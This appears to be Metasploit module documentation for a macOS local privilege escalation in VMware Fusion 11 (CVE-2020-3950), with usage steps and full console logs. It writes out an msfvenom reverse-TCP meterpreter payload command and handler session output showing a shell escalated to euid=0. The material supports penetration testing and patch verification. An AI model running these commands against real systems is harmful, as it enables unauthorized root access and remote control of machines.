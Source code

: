## Vulnerable Application

This exploits an improper use of setuid binaries within VMWare Fusion 11 - 11.5.2. The `Open VMware USB Arbitrator Service` can be
launched outide of its standard path which allows loading of an attacker controlled binary. By creating a payload in the user home
directory in a specific folder, and creating a hard link to the `Open VMWare USB Arbitrator Service`, we're able to launch it
temporarily to start our payload with an effective UID of 0.

Additional description can be found in
@mirchr's [exploit](https://raw.githubusercontent.com/mirchr/security-research/master/vulnerabilities/CVE-2020-3950.sh).

VMWare Fusion 11.5.1 is available from [VMWare](https://download3.vmware.com/software/fusion/file/VMware-Fusion-11.5.1-15018442.dmg).

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Get a shell
  4. Do: ```use exploit/osx/local/vmware_fusion_lpe```
  5. Do: ```set session #```
  6. Do: ```run```
  7. You should get a `euid=0` shell.

## Options

### Session

Which session to use this exploit on.

## Scenarios

### VMware Fusion 11.5.1 (15018442) on macOS 10.15.3 (19D76)

```
/msfvenom --payload python/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=8888 -b "\x00" -o /var/www/html/meterp_8888.py
```

```
[*] Processing fusion.rb for ERB directives.
resource (fusion.rb)> setg verbose true
verbose => true
resource (fusion.rb)> use exploit/multi/handler
resource (fusion.rb)> set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
resource (fusion.rb)> setg lhost 1.1.1.1
lhost => 1.1.1.1
resource (fusion.rb)> set lport 8888
lport => 8888
resource (fusion.rb)> exploit
[*] Started reverse TCP handler on 1.1.1.1:8888 
[*] Sending stage (53755 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:8888 -> 2.2.2.2:49265) at 2020-03-23 18:07:57 -0400

meterpreter > getuid
Server username: h00die
meterpreter > sysinfo
Computer        : h00dies-MBP.doman
OS              : Darwin 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64
Architecture    : x64
System Language : en_US
Meterpreter     : python/osx
meterpreter > background
[*] Backgrounding session 1...
```

```
resource (fusion.rb)> use exploit/osx/local/vmware_fusion_lpe
resource (fusion.rb)> set session 1
session => 1
resource (fusion.rb)> exploit

[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] 'Open VMware USB Arbitrator Service' binary detected
[*] Uploading Payload
[*] Creating folder (/Users/h00die/2KLH/s0m/wX8XO/) and link
[*] Starting USB Arbitrator Service (5 sec pause)
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:49269) at 2020-03-23 18:08:14 -0400
[+] Deleted /Users/h00die/Contents/Library/services/VMware USB Arbitrator Service
[*] Killing service
[*] Deleting /Users/h00die/2KLH

meterpreter > getuid
Server username: h00die @ h00dies-MBP.domain (uid=501, gid=20, euid=0, egid=20)
meterpreter > sysinfo
Computer     : h00dies-MBP.domain
OS           : macOS Unknown (macOS 10.15.3)
Architecture : x86
BuildTuple   : x86_64-apple-darwin
Meterpreter  : x64/osx

```
